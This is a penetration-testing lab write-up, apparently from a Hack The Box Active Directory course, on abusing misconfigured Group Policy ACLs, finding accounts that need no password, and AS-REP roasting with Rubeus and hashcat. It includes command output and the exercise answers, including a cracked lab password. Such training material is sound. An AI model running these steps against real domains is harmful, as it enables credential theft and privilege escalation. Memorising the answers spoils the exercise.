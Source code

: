 # Misconfig

### Group Policy Object (GPO) Abuse

If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain.

GPO misconfigurations can be abused to perform the following attacks:

* Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
* Adding a local admin user to one or more hosts
* Creating an immediate scheduled task to perform any number of actions

**Enumerating GPO Names with PowerView**

```powershell-session
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

**Enumerating GPO Names with a Built-In Cmdlet**

```powershell-session
PS C:\htb> Get-GPO -All | Select DisplayName

DisplayName
-----------
Certificate Services
Default Domain Policy
Disable NetBIOS
Disable Guest Account
AutoLogon
Default Domain Controllers Policy
Disconnect Idle RDP
Disallow LM Hash
Deny CMD Access
Block Removable Media
GuardAutoLogon
Service Accounts Password Policy
Logon Banner
Disable Forced Restarts
Deny Control Panel Access
```

**Enumerating Domain User GPO Rights**

```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl,
                        WriteOwner
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983095
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-513
AceType               : AccessAllowed
AceFlags              : ObjectInherit, ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None
AuditFlags            : None
```

Here we can see that the Domain Users group has various permissions over a GPO

**Converting GPO GUID to Name**

```powershell-session
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532

DisplayName      : Disconnect Idle RDP
DomainName       : INLANEFREIGHT.LOCAL
Owner            : INLANEFREIGHT\Domain Admins
Id               : 7ca9c789-14ce-46e3-a722-83f4097af532
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 10/28/2021 3:34:07 PM
ModificationTime : 4/5/2022 6:54:25 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Checking in BloodHound, we can see that the `Domain Users` group has several rights over the `Disconnect Idle RDP` GPO, which could be leveraged for full control of the object.

![image](https://academy.hackthebox.com/storage/modules/143/gporights.png)

If we select the GPO in BloodHound and scroll down to `Affected Objects` on the `Node Info` tab, we can see that this GPO is applied to one OU, which contains four computer objects.

![image](https://academy.hackthebox.com/storage/modules/143/gpoaffected.png)

### PASSWD\_NOTREQD Field

**Checking for PASSWD\_NOTREQD Setting using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                         useraccountcontrol
--------------                                                         ------------------
guest                ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ehamilton                            PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                       ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                PASSWD_NOTREQD, NORMAL_ACCOUNT
```

### AS-REP Roasting

**Enumerating for DONT\_REQ\_PREAUTH Value using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

**Cracking the Hash Offline with Hashcat**

```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

## Assessment

**Find another user with the passwd\_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".**

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption><p>ygroce</p></figcaption></figure>

**Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Get the asrep ticket</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption><p>ygroce:Pass@word</p></figcaption></figure>





